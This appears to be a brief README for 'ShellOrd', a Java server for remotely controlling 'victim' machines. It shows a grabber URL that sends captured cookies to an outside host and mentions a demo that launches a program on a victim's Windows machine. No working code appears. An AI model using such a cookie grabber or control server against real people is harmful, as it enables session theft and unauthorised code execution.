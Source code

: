 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins.

## Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

## Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

## Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)

